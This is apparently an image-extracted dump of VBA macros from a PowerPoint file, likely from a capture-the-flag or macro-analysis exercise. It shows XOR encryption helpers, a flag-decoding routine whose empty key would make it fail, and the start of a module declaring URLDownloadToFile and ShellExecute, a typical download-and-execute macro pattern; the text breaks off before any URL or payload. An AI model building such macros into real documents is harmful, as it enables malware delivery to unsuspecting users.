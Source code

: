```
    End If
End Sub

Function XorEncrypt(plaintext As String, key As String) As String
    Dim encrypted As String
    Dim i As Integer
    encrypted = ""
    
    For i = 1 To Len(plaintext)
        ' XOR each character in the plaintext with the corresponding character in the key
        encrypted = encrypted & ChrW(AscW(Mid(plaintext, i, 1)) Xor AscW(Mid(key, (i - 1) Mod Len(key) + 1, 1))
    Next i
    
    XorEncrypt = encrypted
End Function

Function XorDecrypt(ciphertext As String, key As String) As String
    XorDecrypt = XorEncrypt(ciphertext, key) ' XOR encryption and decryption are the same operation
End Function

Sub ExampleUsage()
    Dim plaintext As String
    Dim key As String
    Dim encrypted_text As String
    Dim decrypted_text As String
    
    plaintext = "Hello, XOR Encryption!"
    key = "secret"
    
    ' Encrypt the plaintext
    encrypted_text = XorEncrypt(plaintext, key)
    Debug.Print "Encrypted: " & encrypted_text
    
    ' Decrypt the ciphertext
    decrypted_text = XorDecrypt(encrypted_text, key)
    Debug.Print "Decrypted: " & decrypted_text
End Sub

Sub EncryptFlagExample()
    Dim input As String
    input = "c3JkbmxlbntDbFVXTFFGSEVna1hMUkpGQncwOFAxRTNJVlV9="
    
    ' Decrypt the input
    Dim decryptedFlag As String
    decryptedFlag = XorDecrypt(input, "")
    Debug.Print "Decrypted Flag: " & decryptedFlag
End Sub
-------------------------------------------------------------------------------
VBA MACRO Modulo3 
in file: ppt/vbaProject.bin - OLE stream: 'Modulo3'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
#If VBA7 And Win64 Then
    Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" ( _
        ByVal pCaller As LongPtr, _
        ByVal szURL As String, _
        ByVal szFileName As String, _
        ByVal dwReserved As Long, _
        ByVal lpfnCB As Long) As Long

    Declare PtrSafe Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" ( _
        ByVal hwnd As LongPtr, _
        ByVal lpOperation As String, _
```